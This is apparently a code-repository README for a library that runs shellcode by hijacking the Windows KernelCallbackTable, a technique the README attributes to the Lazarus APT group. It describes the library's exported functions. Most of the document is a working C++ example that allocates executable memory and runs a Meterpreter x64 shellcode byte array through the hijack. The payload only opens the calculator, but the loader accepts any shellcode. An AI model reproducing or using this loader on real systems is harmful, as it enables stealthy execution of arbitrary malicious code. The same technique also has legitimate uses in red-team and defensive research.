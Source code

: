 ## What is This:
### This is just a better version of my older repo, i provided a cleaner code, and as a lib file, so it is easier to implement, again the idea is originally from : [North Korea’s Lazarus APT leverages Windows Update client, GitHub in latest campaign](https://blog.malwarebytes.com/threat-intelligence/2022/01/north-koreas-lazarus-apt-leverages-windows-update-client-github-in-latest-campaign/); and here is the [vx-underground paper](https://samples.vx-underground.org/APTs/2022/2022.01.27(1)/Paper/blog.malwarebytes.com-North%20Koreas%20Lazarus%20APT%20leverages%20Windows%20Update%20client%20GitHub%20in%20latest%20campaign.pdf) 

<br>

## Usage:
#### i added a Example for usage; basically you just have to link the lib using: `#pragma comment(lib , "KctHijackAsLib.lib"` and include `LibHeaders.h` in your **cpp** project, then you can use the exported functions:

- **RunViaKctHijack :** To patch the kct using a x64 trampoline shellcode, that will jump to the address you pass in, we are using `__fnDWORD (WMIsAvailableOffline && wmvcore.dll) and not __fnCOPYDATA tech`. **RunViaKctHijack** will return error code in case it occured, the returned value can be one of [these](https://gitlab.com/ORCA666/kcthijacklib/-/blob/main/Example/LibHeaders.h#L5) .
- **TriggerShellcode :** This will run `MessageBoxA` function, to trigger the shellcode, and return a empty event as a handle.
- **CleanUp :** Cleanup The Trampoline shellcode (re-patch by old bytes), the newly created KCT table, free some memory and unmap wmvcore.dll, and set memory protections back to normal.

<br>

## Example:
    #include <Windows.h>
    #include <stdio.h>
    #include "LibHeaders.h"
    #pragma comment(lib , "KctHijackAsLib.lib")

    // METERPRETER x64 CALC
    unsigned char rawData[] = {
        0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
        0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
        0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
        0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
        0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
        0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
        0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
        0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
        0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
        0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
        0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
        0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
        0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
        0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
        0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
        0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
        0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
        0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
        0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
        0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
        0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
        0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
        0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
    };

    int main() {
        DWORD Error;
        PVOID pShell = VirtualAlloc(NULL, sizeof rawData, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        memcpy(pShell, rawData, sizeof rawData);
        printf("[+] Running Shellcode On : 0x%p \n", (PVOID)pShell);
        if (!RunViaKctHijack(pShell, &Error) || Error != NO_ERROR_RETURNED) {
            printf("[!] RunViaKctHijack Failed; Error: %d \n", Error);
            return 0;
        }
        HANDLE hShell = TriggerShellcode();
        /*
        if (!CleanUp()) {
            printf("[!] CleanUp Returned -1; Error: %d \n", GetLastError());
            return 0;
        }
        */
        WaitForSingleObject(hShell, INFINITE);
        printf("[i] Press Enter To Exit ...\n");
        getchar();
        return 0;
    }


<h6 align="center"> <i>#                                   STAY TUNED FOR MORE</i>  </h6> 
![120064592-a5c83480-c075-11eb-89c1-78732ecaf8d3](https://gitlab.com/ORCA666/kcthijack/-/raw/main/images/PP.png)



